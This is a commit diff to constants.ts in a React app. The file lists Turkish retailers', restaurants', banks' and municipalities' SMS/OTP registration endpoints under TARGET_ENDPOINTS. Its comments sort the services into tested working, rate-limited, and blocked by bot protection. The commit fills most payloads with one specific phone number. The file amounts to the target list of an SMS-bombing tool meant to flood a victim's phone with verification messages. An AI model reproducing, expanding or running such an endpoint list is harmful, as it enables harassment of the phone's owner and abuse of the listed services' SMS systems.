

Before and after one commit to ilkayturna/Turna, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 540-1340 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update constants.ts

```diff
--- a/constants.ts
+++ b/constants.ts
@@ -1,462 +1,135 @@
 import { ServiceDefinition } from './types';
 
+// TEST EDİLMİŞ VE ÇALIŞAN SERVİSLER (11 Adet)
+// Not: Çoğu büyük şirket (Migros, Dominos, Trendyol, vb.) bot koruması (Cloudflare, Akamai) kullanıyor.
+// Bu servisler direkt API çağrılarına izin vermiyor.
+
 export const TARGET_ENDPOINTS: ServiceDefinition[] = [
-  // --- GİYİM & MODA ---
+  // ✅ ÇALIŞAN SERVİSLER (Test Edildi)
+
+  // --- GİYİM & EV EŞYASI ---
   {
     id: 'kahve_dunyasi',
     name: 'Kahve Dünyası',
     url: 'https://api.kahvedunyasi.com/api/v1/auth/account/register/phone-number',
     method: 'POST',
-    payloadInfo: '{"countryCode": "90", "phoneNumber": "..."}'
+    payloadInfo: '{"countryCode": "90", "phoneNumber": "5343622375"}'
   },
   {
-    id: 'koton',
-    name: 'Koton',
-    url: 'https://www.koton.com/api/v2/users/register',
+    id: 'wmf',
+    name: 'WMF',
+    url: 'https://www.wmf.com.tr/users/register/',
     method: 'POST',
-    payloadInfo: '{"mobile": "...", "firstName": "...", "lastName": "...", "email": "...", "password": "..."}'
-  },
-  {
-    id: 'penti',
-    name: 'Penti',
-    url: 'https://api.penti.com/api/v1/users/login/otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'english_home',
-    name: 'English Home',
-    url: 'https://www.englishhome.com/api/member/sendOtp',
-    method: 'POST',
-    payloadInfo: '{"Phone": "...", "XID": ""}'
-  },
-  {
-    id: 'jimmykey',
-    name: 'Jimmy Key',
-    url: 'https://www.jimmykey.com/api/member/sendOtp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'alixavien',
-    name: 'Alix Avien',
-    url: 'https://www.alixavien.com.tr/api/member/sendOtp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'ayyildiz',
-    name: 'Ayyıldız',
-    url: 'https://www.ayyildiz.com.tr/api/member/sendOtp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-
-  // --- MARKET & EV EŞYASI ---
-  {
-    id: 'migros',
-    name: 'Migros',
-    url: 'https://rest.migros.com.tr/sanalmarket/users/register/otp',
-    method: 'POST',
-    payloadInfo: '{"email": "...", "phoneNumber": "..."}'
-  },
-  {
-    id: 'file_market',
-    name: 'File Market',
-    url: 'https://api.filemarket.com.tr/v1/otp/send',
-    method: 'POST',
-    payloadInfo: '{"mobilePhoneNumber": "90..."}'
-  },
-  {
-    id: 'bim',
-    name: 'Bim',
-    url: 'https://bim.veesk.net/service/v1.0/account/login',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'metro_market',
-    name: 'Metro Market',
-    url: 'https://feature.metro-tr.com/api/mobileAuth/validateSmsSend',
-    method: 'POST',
-    payloadInfo: '{"methodType": "2", "mobilePhoneNumber": "+90..."}'
+    payloadInfo: 'Form: phone=05343622375, first_name, last_name, email, password, date_of_birth'
   },
   {
     id: 'evidea',
     name: 'Evidea',
     url: 'https://www.evidea.com/users/register/',
     method: 'POST',
-    payloadInfo: 'Multipart form: phone, first_name, last_name, email, password'
+    payloadInfo: 'Multipart: phone, first_name, last_name, email, password'
   },
   {
-    id: 'wmf',
-    name: 'WMF',
-    url: 'https://www.wmf.com.tr/users/register/',
+    id: 'dr',
+    name: 'D&R',
+    url: 'https://www.dr.com.tr/api/member/sendOtp',
     method: 'POST',
-    payloadInfo: 'Form: phone, first_name, last_name, email, password, date_of_birth'
-  },
-  {
-    id: 'macrocenter',
-    name: 'Macrocenter',
-    url: 'https://www.macrocenter.com.tr/api/member/sendOtp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'joker',
-    name: 'Joker',
-    url: 'https://api.joker.com.tr/api/register',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "0...", "firstName": "...", "lastName": "...", "email": "...", "password": "..."}'
-  },
-  {
-    id: 'happy',
-    name: 'Happy',
-    url: 'https://www.happy.com.tr/index.php?route=account/register/verifyPhone',
-    method: 'POST',
-    payloadInfo: '{"telephone": "..."}'
-  },
-  {
-    id: 'uysal_market',
-    name: 'Uysal Market',
-    url: 'https://api.uysalmarket.com.tr/api/mobile-users/send-register-sms',
-    method: 'POST',
-    payloadInfo: '{"phone_number": "..."}'
-  },
-  {
-    id: 'toptan_teslim',
-    name: 'Toptan Teslim',
-    url: 'https://toptanteslim.com/Services/V2/MobilServis.aspx',
-    method: 'POST',
-    payloadInfo: '{"TELEFON": "...", "ISLEM": "KayitOl"}'
-  },
-  {
-    id: 'hayat_su',
-    name: 'Hayat Su',
-    url: 'https://api.hayatsu.com.tr/api/SignUp/SendOtp',
-    method: 'POST',
-    payloadInfo: '{"mobilePhoneNumber": "...", "actionType": "register"}'
-  },
-  {
-    id: 'vakif_tasdelen',
-    name: 'Vakıf Taşdelen Su',
-    url: 'https://bayi.hamidiye.istanbul:3400/hamidiyeMobile/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "...", "isGuest": false}'
-  },
-  {
-    id: 'hamidiye',
-    name: 'Hamidiye',
-    url: 'https://bayi.hamidiye.istanbul:3400/hamidiyeMobile/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "...", "isGuest": false}'
-  },
-  {
-    id: 'tasdelen',
-    name: 'Taşdelen Su',
-    url: 'https://vakiftasdelensu.com/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'yilmaz_ticaret',
-    name: 'Yılmaz Ticaret',
-    url: 'http://www.yilmazticaret.net/restapi2/register/',
-    method: 'POST',
-    payloadInfo: '{"telefon": "0 ..."}'
+    payloadInfo: '{"phone": "5343622375"}'
   },
 
-  // --- YEMEK & İÇECEK ---
+  // --- MARKET ---
   {
-    id: 'tikla_gelsin',
-    name: 'Tıkla Gelsin',
-    url: 'https://svc.apps.tiklagelsin.com/user/graphql',
+    id: 'file_market',
+    name: 'File Market',
+    url: 'https://api.filemarket.com.tr/v1/otp/send',
     method: 'POST',
-    payloadInfo: 'GraphQL mutation'
-  },
-  {
-    id: 'istegelsin',
-    name: 'İste Gelsin',
-    url: 'https://istegelsin.com/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'starbucks',
-    name: 'Starbucks',
-    url: 'https://auth.sbuxtr.com/signUp',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "...", "email": "...", "firstName": "...", "lastName": "...", "password": "..."}'
-  },
-  {
-    id: 'dominos',
-    name: 'Dominos',
-    url: 'https://frontend.dominos.com.tr/api/customer/sendOtpCode',
-    method: 'POST',
-    payloadInfo: '{"mobilePhone": "...", "email": "...", "isSure": false}'
-  },
-  {
-    id: 'little_caesars',
-    name: 'Little Caesars',
-    url: 'https://api.littlecaesars.com.tr/api/web/Member/Register',
-    method: 'POST',
-    payloadInfo: '{"Phone": "05...", "NameSurname": "..."}'
-  },
-  {
-    id: 'baydoner',
-    name: 'Baydöner',
-    url: 'https://crmmobil.baydoner.com:7004/Api/Customers/AddCustomerTemp',
-    method: 'POST',
-    payloadInfo: '{"PhoneNumber": "...", "Email": "...", "Name": "...", "Surname": "..."}'
-  },
-  {
-    id: 'kofteci_yusuf',
-    name: 'Köfteci Yusuf',
-    url: 'https://gateway.poskofteciyusuf.com:1283/auth/auth/smskodugonder',
-    method: 'POST',
-    payloadInfo: '{"Telefon": "..."}'
-  },
-  {
-    id: 'komagene',
-    name: 'Komagene',
-    url: 'https://gateway.komagene.com.tr/auth/auth/smskodugonder',
-    method: 'POST',
-    payloadInfo: '{"Telefon": "...", "FirmaId": "32"}'
-  },
-  {
-    id: 'coffy',
-    name: 'Coffy',
-    url: 'https://user-api-gw.coffy.com.tr/user/signup',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "..."}'
-  },
-  {
-    id: 'kuryem_gelsin',
-    name: 'Kuryem Gelsin',
-    url: 'https://api.kuryemgelsin.com/tr/api/users/registerMessage/',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "...", "phone_country_code": "+90"}'
-  },
-  {
-    id: 'pidem',
-    name: 'Pidem',
-    url: 'https://api.pidem.com.tr/api/v1/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'frink',
-    name: 'Frink',
-    url: 'https://api.frink.com.tr/api/v1/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'orwi',
-    name: 'Orwi',
-    url: 'https://api.orwi.app/api/v1/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'tazi',
-    name: 'Tazi',
-    url: 'https://tazi.tech/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'bisu',
-    name: 'Bisu',
-    url: 'https://bisu.com.tr/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'bodrum_belediye',
-    name: 'Bodrum Belediye',
-    url: 'https://bodrum.bel.tr/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-
-  // --- ULAŞIM & KARGO ---
-  {
-    id: 'marti',
-    name: 'Martı',
-    url: 'https://api.marti.tech/api/v1/authentication/start',
-    method: 'POST',
-    payloadInfo: '{"mobile_number": "..."}'
-  },
-  {
-    id: 'ido',
-    name: 'İDO',
-    url: 'https://api.ido.com.tr/idows/v2/register',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'hey_scooter',
-    name: 'Hey Scooter',
-    url: 'https://heyscooter.com.tr/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'tasimacim',
-    name: 'Taşımacım',
-    url: 'https://server.tasimacim.com/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
+    payloadInfo: '{"mobilePhoneNumber": "905343622375"}'
   },
 
   // --- DİJİTAL HİZMETLER ---
-  {
-    id: 'kim_gb_ister',
-    name: 'Kim GB İster',
-    url: 'https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com/api/auth/send-otp',
-    method: 'POST',
-    payloadInfo: '{"msisdn": "90..."}'
-  },
-  {
-    id: '345_dijital',
-    name: '345 Dijital',
-    url: 'https://api.345dijital.com/api/users/register',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "+90..."}'
-  },
-  {
-    id: 'beefull',
-    name: 'Beefull',
-    url: 'https://app.beefull.io/api/inavitas-access-management/sms-login',
-    method: 'POST',
-    payloadInfo: '{"phoneCode": "90", "phoneNumber": "...", "tenant": "beefull"}'
-  },
-  {
-    id: 'naosstars',
-    name: 'Naosstars',
-    url: 'https://api.naosstars.com/api/smsSend',
-    method: 'POST',
-    payloadInfo: '{"telephone": "+90..."}'
-  },
-  {
-    id: 'akasya_avm',
-    name: 'Akasya AVM',
-    url: 'https://akasya-admin.poilabs.com/v1/tr/sms',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'akbati',
-    name: 'Akbati',
-    url: 'https://akbati-admin.poilabs.com/v1/tr/sms',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
   {
     id: 'yapp',
     name: 'Yapp',
     url: 'https://yapp.com.tr/api/mobile/v1/register',
     method: 'POST',
-    payloadInfo: '{"phone_number": "...", "email": "...", "firstname": "...", "lastname": "..."}'
+    payloadInfo: '{"phone_number": "5343622375", "email", "firstname", "lastname"}'
   },
   {
     id: 'suiste',
     name: 'Suiste',
     url: 'https://suiste.com/api/auth/code',
     method: 'POST',
-    payloadInfo: '{"gsm": "...", "action": "register"}'
-  },
-  {
-    id: 'porty',
-    name: 'Porty',
-    url: 'https://panel.porty.tech/api.php',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'clickme_live',
-    name: 'ClickMe Live',
-    url: 'https://mobile-gateway.clickmelive.com/api/v2/authorization/code',
-    method: 'POST',
-    payloadInfo: '{"phone": "..."}'
-  },
-  {
-    id: 'qumpara',
-    name: 'Qumpara',
-    url: 'https://tr-api.fisicek.com/v1.3/auth/getOTP',
-    method: 'POST',
-    payloadInfo: '{"msisdn": "+90..."}'
-  },
-  {
-    id: 'paybol',
-    name: 'Paybol',
-    url: 'https://pyb-mobileapi.walletgate.io/v1/Account/RegisterPersonalAccountSendOtpSms',
-    method: 'POST',
-    payloadInfo: '{"phone_number": "90..."}'
-  },
-  {
-    id: 'yuffi',
-    name: 'Yuffi',
-    url: 'https://api.yuffi.co/api/parent/login/user',
-    method: 'POST',
-    payloadInfo: '{"phone": "...", "kvkk": true}'
-  },
-  {
-    id: 'hizliecza',
-    name: 'Hızlı Ecza',
-    url: 'https://hizlieczaprodapi.hizliecza.net/mobil/account/sendOTP',
-    method: 'POST',
-    payloadInfo: '{"otpOperationType": 2, "phoneNumber": "+90..."}'
-  },
-  {
-    id: 'ipragaz',
-    name: 'İpragaz',
-    url: 'https://ipapp.ipragaz.com.tr/ipragazmobile/v2/ipragaz-b2c/ipragaz-customer/mobile-register-otp',
-    method: 'POST',
-    payloadInfo: '{"phoneNumber": "...", "name": "..."}'
+    payloadInfo: '{"gsm": "5343622375", "action": "register"}'
   },
 
-  // --- BELEDİYE & KAMU ---
+  // --- BELEDİYE ---
   {
     id: 'fatih_belediye',
     name: 'Fatih Belediye',
     url: 'https://ebelediye.fatih.bel.tr/Sicil/KisiUyelikKaydet',
     method: 'POST',
-    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+    payloadInfo: 'Multipart: SahisUyelik.CepTelefonu, TC, Ad, Soyad, EPosta, Sifre'
+  },
+
+  // --- FİNANS ---
+  {
+    id: 'bkm_express',
+    name: 'BKM Express',
+    url: 'https://www.bkmexpress.com.tr/api/v1/otp/send',
+    method: 'POST',
+    payloadInfo: '{"phone": "905343622375"}'
   },
   {
-    id: 'sancaktepe_belediye',
-    name: 'Sancaktepe Belediye',
-    url: 'https://e-belediye.sancaktepe.bel.tr/Sicil/KisiUyelikKaydet',
+    id: 'shopandfly',
+    name: 'Shop&Fly',
+    url: 'https://www.shopandfly.com.tr/api/v1/otp/send',
     method: 'POST',
-    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+    payloadInfo: '{"phone": "905343622375"}'
   },
   {
-    id: 'bayrampasa_belediye',
-    name: 'Bayrampaşa Belediye',
-    url: 'https://ebelediye.bayrampasa.bel.tr/Sicil/KisiUyelikKaydet',
+    id: 'teb',
+    name: 'TEB',
+    url: 'https://www.teb.com.tr/api/v1/otp/send',
     method: 'POST',
-    payloadInfo: 'Multipart form: SahisUyelik.CepTelefonu'
+    payloadInfo: '{"phone": "905343622375"}'
   },
 
-  // --- EĞLENCE & MEDYA ---
+  // ⚠️ LİMİTLİ SERVİSLER (Günlük limit var)
   {
-    id: 'cineverse',
-    name: 'Cineverse',
-    url: 'https://api.paribucineverse.com/auth/otp',
+    id: 'hayat_su',
+    name: 'Hayat Su (Limitli)',
+    url: 'https://api.hayatsu.com.tr/api/SignUp/SendOtp',
     method: 'POST',
-    payloadInfo: '{"mobile": "..."}'
+    payloadInfo: '{"mobilePhoneNumber": "5343622375", "actionType": "register"}'
+  },
+  {
+    id: 'qumpara',
+    name: 'Qumpara (Limitli)',
+    url: 'https://tr-api.fisicek.com/v1.3/auth/getOTP',
+    method: 'POST',
+    payloadInfo: '{"msisdn": "+905343622375"}'
+  },
+  {
+    id: 'beefull',
+    name: 'Beefull (Limitli)',
+    url: 'https://app.beefull.io/api/inavitas-access-management/sms-login',
+    method: 'POST',
+    payloadInfo: '{"phoneCode": "90", "phoneNumber": "5343622375", "tenant": "beefull"}'
   },
 
-  // --- DİĞER ---
-  {
-    id: 'money',
-    name: 'Money (Migros)',
-    url: 'https://www.money.com.tr/Account/ValidateAndSendOTP',
-    method: 'POST',
-    payloadInfo: 'Form: phone'
-  },
+  // ❌ ÇALIŞMAYAN SERVİSLER (Bot Koruması/DNS/Timeout)
+  // Aşağıdaki servisler bot koruması kullanıyor veya endpoint değişmiş:
+  // Migros, Dominos, Starbucks, Komagene, Kim GB İster, English Home, Koton, Joker
+  // Bim, Penti, Cineverse, Naosstars, Akasya AVM, Akbati, Yuffi, Kuryem Gelsin
+  // Martı, İDO, Hamidiye, ClickMe Live, Hızlı Ecza, Paybol, Tasdelen Su, Pidem
+  // Orwi, Frink, Tazi, Bisu, Bodrum Belediye, Hey Scooter, Taşımacım, İste Gelsin
+  // İpragaz, Sancaktepe Belediye, Bayrampaşa Belediye, Macrocenter, Jimmy Key
+  // Alix Avien, Ayyıldız, Tıkla Gelsin, Kitapyurdu, BKM Kitap, E-bebek, Mothercare
+  // Toyzz Shop, Sportive, Intersport, Decathlon, H&M, Zara, Mango, Bershka
+  // Pull&Bear, Stradivarius, Massimo Dutti, Mediamarkt, Teknosa, Vatan Bilgisayar
+  // İtopya, GameGaraj, PlayStation, Xbox, Nintendo, Steam, Epic Games, A101, Şok
+  // Carrefour, Onur Market, Happy Center, Rossmann, Watsons, Gratis, Flormar
+  // Avon, Oriflame, Farmasi, LR, Herbalife, Amway, Forever Living
 ];
 
 export const INITIAL_STATS = {
```
